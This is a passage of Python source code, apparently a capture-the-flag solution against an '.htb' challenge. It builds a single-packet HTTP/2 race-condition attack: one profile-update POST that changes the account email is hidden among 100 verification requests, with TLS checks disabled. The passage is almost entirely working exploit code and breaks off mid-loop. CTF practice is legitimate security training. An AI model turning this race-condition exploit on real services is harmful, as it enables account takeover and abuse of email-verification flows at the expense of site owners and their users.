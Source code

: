 ```python
responseDeleteMails = requests.get(urlDeleteMails, verify=False)
#print(response.text)
# change this host name to new generated one

Headers = { "Cookie" : cookie, "content-type": "application/x-www-form-urlencoded" }
data="email=test%40email.htb&username=estes&fullName=test&antiCSRFToken="+CSRF
urlReset="https://"+host+":"+str(puerto)+"/challenge/api/profile"
responseReset = requests.post(urlReset, data=data, headers=Headers, verify=False)

print(responseReset.status_code)

h2_conn = H2OnTlsConnection(
hostname=host,
port_number=puerto
)

h2_conn.setup_connection()

try_num = 100

stream_ids_list = h2_conn.generate_stream_ids(number_of_streams=try_num)

all_headers_frames = []  # all headers frame + data frames which have not the last byte
all_data_frames = []  # all data frames which contain the last byte


for i in range(0, try_num):
last_data_frame_with_last_byte=''
if i == try_num/2:
header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(  # noqa: E501
method='POST',
headers_string=headersObjetivo,
scheme='https',
stream_id=stream_ids_list[i],
authority=host,
body=bodyObjetivo,
path='/challenge/api/profile'
)
else:
header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(
method='GET',
headers_string=headersVerification,
scheme='https',
stream_id=stream_ids_list[i],
authority=host,
body=".",
path='/challenge/api/sendVerification'
)

all_headers_frames.append(header_frames_without_last_byte)
all_data_frames.append(last_data_frame_with_last_byte)


# concatenate all headers bytes
temp_headers_bytes = b''
for h in all_headers_frames:
temp_headers_bytes += bytes(h)

# concatenate all data frames which have last byte
temp_data_bytes = b''
for d in all_data_frames:
```